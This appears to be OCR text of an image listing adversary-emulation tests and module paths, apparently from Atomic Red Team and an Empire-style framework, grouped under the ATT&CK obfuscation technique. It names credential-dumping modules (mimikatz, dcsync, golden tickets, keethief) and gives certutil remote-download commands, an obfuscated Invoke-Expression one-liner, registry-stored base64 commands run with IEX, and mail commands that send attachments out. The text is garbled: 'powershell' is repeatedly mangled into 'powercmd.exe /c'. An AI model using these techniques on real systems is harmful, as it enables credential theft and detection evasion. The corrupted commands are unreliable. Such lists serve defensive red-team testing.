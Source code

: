 * powercmd.exe /c/collection/vaults/keethief
* powercmd.exe /c/collection/vaults/remove_keepass_config_trigger
* powercmd.exe /c/credentials/enum_cred_store
* powercmd.exe /c/credentials/mimikatz/cache
* powercmd.exe /c/credentials/mimikatz/command
* powercmd.exe /c/credentials/mimikatz/dcsync
* powercmd.exe /c/credentials/mimikatz/dcsync_hashdump
* powercmd.exe /c/credentials/mimikatz/extract_tickets
* powercmd.exe /c/credentials/mimikatz/golden_ticket
* powercmd.exe /c/credentials/mimikatz/logonpasswords
* powercmd.exe /c/credentials/mimikatz/lsadump
* powercmd.exe /c/credentials/mimikatz/mimitokens
* powercmd.exe /c/credentials/mimikatz/sam
* powercmd.exe /c/credentials/mimikatz/silver_ticket
* powercmd.exe /c/credentials/mimikatz/trust_keys
* powercmd.exe /c/credentials/powerdump
* powercmd.exe /c/credentials/vault_credential
* powercmd.exe /c/management/downgrade_account
* powercmd.exe /c/management/wdigest_downgrade
* powercmd.exe /c/privesc/gpp
* powercmd.exe /c/privesc/mcafee_sitelist
* python/collection/linux/hashdump
* python/collection/linux/mimipenguin
* python/collection/osx/hashdump
* python/collection/osx/kerberosdump
* python/management/multi/kerberos_inject
##T1027: Obfuscated Files or Information
* cmd /c certutil urlcache  split "" #{remote_file} Atomic-license.txt
* cmd /c certutil urlcache  split "" https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt #{local_path}
* $OriginalCommand = 'Write-Host "Hey, Atomic!"'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand
powercmd.exe /c.exe -EncodedCommand $EncodedCommand
* $cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )
* Send-MailMessage -From #{sender} -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments #{input_file} -SmtpServer 127.0.0.1
* Send-MailMessage -From #{sender} -To test@corp.com -Subject 'T1027_Atomic_Test' -Attachments #{input_file} -SmtpServer #{smtp_server}
* $OriginalCommand = 'Write-Host "Hey, Atomic!"'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powercmd.exe /c.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
* Send-MailMessage -From test@corp.com -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments #{input_file} -SmtpServer #{smtp_server}
* $OriginalCommand = '#{powercmd.exe /c_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand
